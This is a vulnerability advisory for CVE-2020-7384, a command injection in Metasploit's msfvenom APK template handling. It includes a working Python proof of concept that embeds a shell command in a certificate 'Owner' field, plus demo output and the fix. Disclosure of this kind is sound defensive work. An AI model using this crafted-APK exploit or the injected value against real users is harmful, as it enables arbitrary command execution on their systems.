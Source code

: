 # Metasploit Framework - `msfvenom` APK template command injection

CVE-2020-7384

Versions affected:

* Metasploit Framework <= 6.0.11
* Metasploit Pro <= 4.18.0

Platforms affected: Linux and macOS

Windows systems do not seem to be affected because `msfvenom`'s support for APK
templates is broken when running on Windows.

A fix for this issue was submitted at
<https://github.com/rapid7/metasploit-framework/pull/14288>. Users should
update to Metasploit Framework 6.0.12 or newer, or Metasploit Pro 4.19.0 or
newer.

## Notice regarding "attackers" and "victims"

This advisory describes a vulnerability in Metasploit Framework, which is a
framework for developing and using exploits. We normally think of the user of
Metasploit Framework as the "attacker", and the target as being the "victim".
When there's a vulnerability in offensive software such as Metasploit, the
attacker becomes the victim.

To make matters more confusing, there is now a Metasploit module that exploits
this vulnerability. Thus there could be a scenario in which a user of
Metasploit uses it to attack another user using Metasploit.

## In Brief

There is a command injection vulnerability in `msfvenom` when using a crafted
APK file as an Android payload template.

Metasploit Framework provides the `msfvenom` tool for payload generation. For
many of the payload types provided by `msfvenom`, it allows the user to provide
a "template" using the `-x` option.

For example, the documentation at
<https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom#how-to-supply-a-custom-template>
explains that the following command can be used to generate a Windows
Meterpreter payload as a .exe file using the default template provided with
Metasploit.

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe > new.exe 
```

The following command would produce the same Meterpreter payload, but instead
of being embedded in the default template, it would be embedded within the
given `calc.exe` Windows executable file:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

When generating Android payloads in particular, `msfvenom` can use an APK file
of the user's choosing as a template. An APK file is an Android software
package. There is a command injection vulnerability in the way that `msfvenom`
handles these APK files when used as templates.

An attacker who could trick an `msfvenom` user into using a crafted APK file as
a template could execute arbitrary commands on the user's system.

For example, an attacker could prepare and publish a crafted APK file that they
believe is an enticing template. If a user of Metasploit Framework obtains that
APK file and attempts to use it as an `msfvenom` template, arbitrary commands
can be executed on that user's machine.

Note that using any file as a payload template *should* be a safe operation for
the attacker. During payload generation, the template is not executed on the
attacker's machine. The payload is simply the file within which the generated
payload will be embedded.

## The Vulnerability

Note that links in this section point to a copy of the code as of a vulnerable
commit.

The process used by `msfvenom` for using an APK file as a template is as
follows:

1. It executes `keytool` to extract the "Owner" field from the APK's signature, as well as the signature's timestamp (<https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L128>)
2. It executes `keytool` to generate a new signing key and self-signed certificate based on the details extracted from the APK file in step 1 (<https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L194-L197>)
3. It executes `apktool` to do various decompilation operations, uses an XML parser to parse the original APK's XML manifest file, injects the payload, rebuilds the injected APK, uses `jarsigner` to sign the APK with the keys generated in step 2 and uses `zipalign` to align the APK file (<https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L200-L298>)

The command vulnerability is in step 2 of this process. `keytool` is executed
using the following command line:

```
keytool -genkey -v -keystore #{keystore} \
    -alias #{keyalias} -storepass #{storepass} -keypass #{keypass} -keyalg RSA \
    -keysize 2048 -startdate '#{orig_cert_startdate}' \
    -validity #{orig_cert_validity} -dname '#{orig_cert_dname}'
```

In particular, the value for `orig_cert_dname` is obtained from step 1 of the
process, where the original APK was parsed and the "Owner" field was extracted
from the APK's signature.

This command string is passed to `Open3.popen3()`. When this function receives
a single string parameter (as opposed to multiple parameters) it effectively
acts as a `system()` function.

This gives rise to a command injection vulnerability. If a crafted APK file has
a signature with an "Owner" field containing:

* A single quote (to escape the single-quoted string)
* Followed by shell metacharacters

When that APK file is used as an `msfvenom` template, arbitrary commands can be
executed on the `msfvenom` user's system.

## POC

The following Python script will produce a crafted APK file that executes a
given command-line payload when used as a template.

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'echo "Code execution as $(id)" > /tmp/win'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```

## Demo

Use the above POC to generate a malicious APK file:

```
% ./msfvenom_apk_template_poc.py
[+] Manufacturing evil apkfile
Payload: echo "Code execution as $(id)" > /tmp/win
-dname: CN='|echo ZWNobyAiQ29kZSBleGVjdXRpb24gYXMgJChpZCkiID4gL3RtcC93aW4= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.

[+] Done! apkfile is at /tmp/tmpbldx9xpk/evil.apk
Do: msfvenom -x /tmp/tmpbldx9xpk/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Note that `/tmp/win` does not exist on the local machine:

```
% cat /tmp/win
cat: /tmp/win: No such file or directory
```

Use `msfvenom` and provide the malicious APK file as a template:

```
% msfvenom -x /tmp/tmpbldx9xpk/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
Using APK template: /tmp/tmpbldx9xpk/evil.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
[*] Creating signing key and keystore..
[*] Decompiling original APK..
[*] Decompiling payload APK..
Error: No such file or directory @ rb_sysopen - /tmp/d20201017-8966-1kwjoza/original/AndroidManifest.xml
```

Note that `/tmp/win` was created, proving arbitrary command execution:

```
% cat /tmp/win
Code execution as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

## Fix

A fix for the issue was submitted at
<https://github.com/rapid7/metasploit-framework/pull/14288>. The fix was to
parameterise the arguments to `popen3()`, making it an `exec()`-style process
execution function which does not honour shell metacharacters.

The fix is included in Metasploit Framework 6.0.12 and Metasploit Pro 4.19.0

## Metasploit Module

A module targeting this vulnerability has been submitted for inclusion in
Metasploit Framework. See <https://github.com/rapid7/metasploit-framework/pull/14331>
